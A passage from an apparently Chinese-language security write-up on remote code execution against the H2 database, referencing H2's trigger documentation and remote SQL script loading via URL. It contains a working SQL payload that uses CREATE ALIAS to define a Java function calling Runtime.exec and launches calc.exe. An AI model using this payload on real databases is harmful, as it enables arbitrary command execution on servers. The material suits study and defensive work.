 https://www.h2database.com/html/commands.html#create_trigger  
![](./img/2023-07-24-18-55-24.png)    
所以便可以通过UDF来进行RCE.  
```sql
CREATE ALIAS EXEC AS 'void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';
select EXEC ('calc.exe');
```
结合两个特性,我们便可以在连接到h2数据库时进行RCE.
#### 远程加载SQL 
而从代码中可以看到对文件名是调用的`FileUtils.newInputStream(file);`进行处理.  
![](./img/2023-07-24-18-45-37.png)  
而最后如果不是从classPath开头地址的话就会使用URL连接打开.  